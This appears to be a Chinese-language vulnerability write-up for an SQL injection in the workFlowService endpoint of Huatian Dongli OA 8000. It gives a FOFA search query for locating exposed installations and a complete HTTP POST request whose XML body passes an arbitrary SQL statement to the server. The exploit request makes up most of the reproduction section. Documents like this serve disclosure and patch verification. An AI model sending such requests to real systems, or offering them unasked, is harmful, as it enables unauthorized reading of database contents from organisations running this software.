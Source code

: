 # 华天动力OA 8000版 workFlowService SQL注入漏洞

## 漏洞描述

华天动力OA 8000版 workFlowService接口存在SQL注入漏洞，攻击者通过漏洞可获取数据库敏感信息

## 漏洞影响

```
华天动力OA 8000版 
```

## FOFA

```
app="华天动力-OA8000"
```

## 漏洞复现

产品页面

![img](./images/1628496676017-abce1043-e1a9-4142-9481-555f1bf0821c.png)

发送请求包验证漏洞

```php
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: 、
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Referer: http://www.baidu.com
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

![img](./images/1628496737082-cede14dc-71ae-4ec3-83da-e0707e4f8f4f.png)